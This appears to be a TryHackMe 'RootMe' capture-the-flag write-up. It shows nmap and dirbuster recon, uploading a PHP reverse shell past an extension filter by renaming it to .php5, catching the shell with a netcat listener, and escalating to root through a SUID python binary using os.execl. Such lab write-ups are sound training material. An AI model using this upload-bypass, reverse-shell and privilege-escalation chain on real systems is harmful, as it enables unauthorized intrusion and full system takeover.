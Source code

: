 # RootMe TryHackMe Room
## 1. Recon
```
nmap -sV <machine IP>
```
![recon img](recon.png)<br>
we see that there is an apache web server hosted on the machine. so it is only natural that we try to fuzz it.<br>
we use dirbuster, with the wordlist being:
```
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
we stumble across a folder called /panel/ <br>
when we access it, we come across a file upload page <br>
![img uplaod](upload.png)<br>

## 2. gaining access
Lets try uploading a webshell script to this form.<br> 
lets setup a listener for the reverse connection from the machine using:
```
nc -v -n -l -p <desired port>
```
we will be uploading the folowing reverse connection webshell: <br>
```
/usr/share/webshells/php/php-reverse-shell.php
```
Do not forget to change the IP and port to your system's port in the php script's code before uploading. <br>
When trying to upload, it says that PHP is not allowed (in portuguese for some reason). <br>
however, a simple change in the extension works like a charm. simply cannge the extension from php to php5 and it gets accepted with ease. <br>
now, we navigate to the upload folder on the website and click on the webshell that we just uploaded. <br>
![webshell img](file.png) <br>
And hurray! we have succesfully spawned a reverse shell at our listener. <br>
![shell img](shell.png) <br>
it seems that we are in the root directory. perfect!! <br>
The room asks us to enter the contents of user.txt file <br>
to find the file, we run
```
find / -name "user.txt"
```
the file is found in the <b>/var/www</b> folder. the cat command easily reveals the contents of the file.

## 3. privilege escalation
The room tells us to look for binaries with the SUID permission. we look for them with the following command:
```
cd /usr/bin
find . -perm /4000
```
we get the follwing result: <br>
![suid img](suid.png)<br>
we look at GTFObins to look at ways to exploit these binaries.
we find a way to exploit the python binary with the SUID permission to elevate our privileges. <br>
![GTFO img](GTFO.png)<br>
When we run the command: 
```
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
<b>we succesfully spawn a shell with root privileges!!</b><br>
![root img](root.png)<br>
from here, we navigate to the root folder and read the contents of root.txt <br>

with this we clear the room.<br>
<img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/><img src="https://emojis.slackmojis.com/emojis/images/1563480763/5999/meow_party.gif?1563480763" width="30"/>